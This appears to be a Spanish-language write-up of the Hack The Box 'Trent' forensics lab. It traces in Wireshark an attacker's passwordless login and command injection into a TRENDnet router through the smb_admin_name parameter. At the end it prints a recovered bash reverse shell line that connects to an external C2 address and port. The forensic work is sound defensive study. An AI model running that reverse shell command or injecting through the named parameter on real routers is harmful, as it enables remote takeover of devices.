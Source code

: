 ```yaml
---
layout: single
title: Sherlock Trent - Hack The Box
excerpt: Un equipo de red con una vulnerabilidad del tipo Command Injection, nuestro trabajo es determinar las acciones del atacante y su alcance.  
date: 2025-5-1
classes: wide
header: 
  teaser: ../assets/images/sherlock-trent/logo.png
  teaser_home_page: true
  icon: ../assets/images/hackthebox.webp
categories: 
   - sherlock-htb
   - DFIR
tags: 
   - wireshark
--- 
```


# **Sherlock - Trent** 

Se ha detectad actividad maliciosa dentro de la corporación, se cree que el atacante logró acceder al router a partir del fimware de éste, nuestro trabajo es investigar sus acciones para tener un mejor entendimiento de què fue lo que pasó. 

En este laboratorio se nos proporciona unicamente un `.pcap ` para analizar, estaremos usando wireshark y thsark para hacerlo, asi que podemos pasar rápidamente a las preguntas. 

---
**task 1**

¿Desde qué dirección IP lanzó inicialmente su actividad el atacante?

Esto podemos determinarlo de la siguiente forma, aplicando un filtro para detectar posibles escaneos de red y servicios, la herramienta màs conocida es nmap. 

![](../assets/images/sherlock-trent/imagen1.png)

Vemos claramente a la dirección ip `192.168.10.2` comunicarse varias veces con la dirección de gateway.

---
**task 2**

¿Cuál es el nombre del modelo del router comprometido?

Para esto, podemos aplicar un filtro por ip, ahora que ya sabemos que se trata del gateway, `ip.addr == 192.168.10.1`, hacemos click en el primer paquete que nos salga, seguimos el flujo http y podremos ver el nombre: 

![](../assets/images/sherlock-trent/image2.png)

Que se trata delrRouter WiFi MU-MIMO AC2600 de TRENDnet, modelo TEW-827DRU. 

---
**task 3** 

¿Cuántos intentos fallidos de inicio de sesión intentó el atacante antes de iniciar sesión con éxito en el router?

Para esto aplicamos el filtro en wireshark `ip.addr == 192.168.10.2 && http.request.method == "POST"`

![](../assets/images/sherlock-trent/imagen3.png)

Es en el tercer paquete donde ya vemos el html y css de la página de administración del router.

---
**task 4**

¿A qué hora UTC logró el atacante entrar en la interfaz de administración web de los routers?

Bie, y sabemos que fue en el tercer intento(tercer paquete) cuando logró acceder, podemos configurar el formato en el que se muestra la hora en wireshark en `View > Time Display Format`, la configuramos en UTC y obtenemos la hora. 

![](../assets/images/sherlock-trent/imagen4.png)


---
**task 5** 

¿Cuántos caracteres tenía la contraseña utilizada para conectarse correctamente?

La respuesta la podemos encontrar en el paquete que hemos estado inspeccionando, el que muestra el acceso del atacante al router: 

![](../assets/images/sherlock-trent/imagen5.png)

Donde: 

1. **`log_pass=`** → Este campo normalmente contiene la contraseña principal. En este caso, está **vacío** (`log_pass=`).
2. **`tmp_log_pass=`** → También está vacío.
3. **`login_name=YWRtaW4%3D`** → Este es el nombre de usuario codificado en Base64:

   * `YWRtaW4=` → Base64 decode → `admin`
4. **`login_n=admin`** → También repite el nombre de usuario, sin codificar.

**No se proporcionó una contraseña**

---
**task 6** 

¿Cuál es la versión actual del firmware instalado en el router comprometido? 

Esto podemos encontrarlo en las pàginas web de `adm_status.asp` o `adm_status.asp.html`. 

Estos nombres corresponden a **páginas web del panel de administración del router**.

* `adm_status.asp` → Es una página ASP (Active Server Page) que muestra **información de estado del router**, incluyendo:

  * Versión del firmware
  * Modelo del router
  * Dirección MAC
  * Tiempo de actividad
  * Etc.

* `adm_status.asp.html` → Es el **archivo HTML reconstruido** a partir de esa página, podemos encontrarlo con **NetworkMiner**.

Filtramos por: `http && frame contains "adm_status.asp"` en wireshark: 

![](../assets/images/sherlock-trent/imagen6.png)

---
**task 7** 

¿Qué parámetro HTTP fue manipulado por el atacante para conseguir la ejecución remota de código en el sistema?

Bien, podemos seguir con el filtro que usamos para encontrar el paquete en el que se muestra que el atacamte logró obtener acceso al panel de administración: `ip.src == 192.168.10.2 && ip.dst == 192.168.10.1 && http.request.method == "POST"`

Si el tercero fue en el que obtuvo acceso, el en cuarto podemos ver lo siguiente: 

![](../assets/images/sherlock-trent/imagen7.png) 

Una petición bastante extraña ya hacia el servicio SMB, en lo que parece un intento de Command Injection. 

---
**task 8** 

¿Cuál es el número CVE asociado a la vulnerabilidad explotada en este ataque?

Una búsqueda en google y nos encontramos esto: 

![](../assets/images/sherlock-trent/imagen8.png)

Descripción: 

Una vulnerabilidad de inyección de comandos en el router TRENDnet TEW-827DRU con la versión de firmware 2.10B01. Un atacante puede inyectar comandos en los parámetros de solicitud posterior usbapps.config.smb_admin_name en la interfaz apply.cgi, obteniendo así privilegios de root en el shell

---
**task 9** 

¿Cuál fue el primer comando que ejecutó el atacante al explotar la vulnerabilidad?

Seguimos inspeccionando los paquetes devueltos por el filtro con el que hemos estado trabajando: 

![](../assets/images/sherlock-trent/imagen9.png)

Un comando típico para comprobar la ejecución de comandos

---
**task 10** 

¿Qué comando utilizó el actor para iniciar la descarga de un shell inverso en el router desde un host externo a la red?

![](../assets/images/sherlock-trent/imagen10.png)

---
**task 11**

Múltiples intentos de descargar la shell inversa desde una IP externa fallaron. Cuando el actor cometió un error tipográfico en la inyección, ¿qué mensaje de respuesta devolvió el servidor?

El paquete siguiente del paquete de la pregunta anterior, seguimos el `HTTP stream`: 

![](../assets/images/sherlock-trent/imagen11.png)

---
**task 12** 

¿Cuál era la dirección IP y el número de puerto del servidor de comando y control (C2) cuando el shell inverso del actor finalmente se conectó? (IP:Puerto) 

Para esto nos descargamos el fichero `a1l4m.sh` en `File > Export Objects > HTTP` 

```bash 
┌──(kali㉿kali)-[~/blue-labs/DFIR]
└─$ cat a1l4m.sh     
bash -i > /dev/tcp/35.159.25.253/41143 0<&1 2>&1
```



